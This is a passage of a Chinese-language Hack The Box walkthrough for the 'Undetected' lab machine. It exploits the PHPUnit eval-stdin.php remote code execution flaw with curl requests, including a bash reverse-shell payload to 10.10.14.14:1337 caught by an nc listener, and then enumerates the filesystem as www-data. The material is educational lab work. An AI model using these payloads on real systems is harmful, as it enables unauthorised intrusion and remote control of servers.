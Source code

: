 wget phpunit 漏洞

该脚本确认这是我们的前进道路，phpunit 是可利用的。例子[这里](https://gist.github.com/AssassinUKG/9f150ee3da9d9a9e421635876859a26d)和[这里](http://web.archive.org/web/20170701212357/http://phpunit.vulnbusters.com/)向我展示了如何尝试:

```
curl --data "<?php echo(pi());" http://localhost:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

当我测试这个盒子时，它工作了:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php echo(pi());" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
3.1415926535898
```

在列举了一些之后，我尝试了一个反向 shell:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.14/1337 0>&1\"');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

# 反向外壳

这奏效了，我等待的 nc 监听器捕获到了 shell:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.146] 57118
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$
```

我的身份是 www-data:

```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 信息文件

在对文件系统进行了一些枚举之后，我发现了 www-data 拥有的一些有趣的东西:

```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ find / -user www-data -not -path "/proc/*" -not -path "/var/www/*" 2> /dev/null
<path "/proc/*" -not -path "/var/www/*" 2> /dev/null
/tmp/tmux-33
/dev/pts/0
/var/cache/apache2/mod_cache_disk
/var/backups/info
/run/lock/apache2
```
